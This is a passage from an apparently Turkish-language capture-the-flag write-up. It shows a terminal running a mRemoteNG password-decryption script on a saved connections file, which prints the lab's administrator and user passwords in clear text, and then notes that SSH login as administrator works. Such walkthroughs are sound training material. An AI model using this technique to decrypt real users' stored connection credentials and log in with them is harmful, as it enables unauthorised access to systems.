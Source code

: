 ```
root@kali# ./mRemoteNG-decrypt.py confCons.xml-orig 
[+] Found nodes: 2

Username: Administrator
Password: thXLHM96BeKL0ER2

Username: L4mpje
Password: bureaulampje
```


Bu komut dosyası [Gitlab](https://gitlab.com/0xdf/ctfscripts)'ımda da mevcuttur.


### SSH as administrator

Bu parola ile admin olarak giriş yapabiliyorum:

![Pasted image 20250208013951.png](/img/user/resimler/Pasted%20image%2020250208013951.png)

![Pasted image 20250208013957.png](/img/user/resimler/Pasted%20image%2020250208013957.png)
